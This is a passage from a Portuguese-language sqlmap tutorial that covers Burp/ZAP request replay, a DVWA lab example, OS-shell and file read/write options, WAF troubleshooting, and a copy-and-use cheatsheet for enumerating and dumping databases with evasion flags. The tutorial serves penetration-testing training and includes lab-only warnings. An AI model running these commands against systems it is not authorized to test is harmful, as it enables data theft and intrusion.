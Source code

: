 * O sqlmap salva resultados em `output/<host>/`.
* **Retomar** automaticamente ao reexecutar o mesmo alvo.
* **Limpar sessão**: `--flush-session`
* **Diretório de saída** customizado: `--output-dir=/tmp/sqlmap_out`

## 13) Integração com Burp/ZAP

Capture a requisição **exata** (com cookies/headers/autenticação) pelo Burp/ZAP e **salve** em arquivo (`.txt`). Depois:

```bash
sqlmap -r /caminho/requisicao.txt --batch
```

> Esta é a forma mais confiável para alvos com autenticação, tokens dinâmicos, headers específicos etc.

## 14) Em ambientes de laboratório (DVWA/bWAPP/Juice Shop)

Exemplo DVWA (local), após logar no app e copiar os cookies:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=...; security=low" \
  -p id --dbms=mysql --batch --level=3 --risk=1
```

## 15) Recursos avançados (apenas em laboratório próprio!)

> **Use somente em ambientes seus**; são ações intrusivas.

* **SQL shell** (executar SQL direto): `--sql-shell`
* **OS shell/OS command** (se houver RCE via DB): `--os-shell`
* **Leitura/Escrita de arquivos** via SGBD: `--file-read`, `--file-write`, `--file-dest`

## 16) Dicas de troubleshooting

* Página muito dinâmica? Use `-r` com a requisição exata do Burp/ZAP.
* Muitos falsos negativos? Aumente `--level`, tente `--technique=BT`, suba `--time-sec`.
* Desconfia de filtro WAF? `--identify-waf` e experimente `--tamper` diferentes.
* Token CSRF quebra o teste? Faça login manual, capture a requisição já autenticada (`-r`), ou ajuste fluxo para enviar o token válido.

---

## Cheatsheet essencial (copiar e usar)

```bash
# GET simples
sqlmap -u "http://alvo/x.php?id=1" --batch

# POST com parâmetro-alvo
sqlmap -u "http://alvo/login" --data="u=teste&p=123" -p u --batch

# Requisição do Burp
sqlmap -r req.txt --batch

# Enumeração completa (com foco em MySQL)
sqlmap -u "http://alvo/x.php?id=1" --dbms=mysql --dbs
sqlmap -u "http://alvo/x.php?id=1" -D banco --tables
sqlmap -u "http://alvo/x.php?id=1" -D banco -T tabela --columns
sqlmap -u "http://alvo/x.php?id=1" -D banco -T tabela --dump

# Mais profundo e evasivo
sqlmap -u "http://alvo/x.php?id=1" --level=5 --risk=2 --technique=BT \
       --threads=5 --random-agent --identify-waf \
```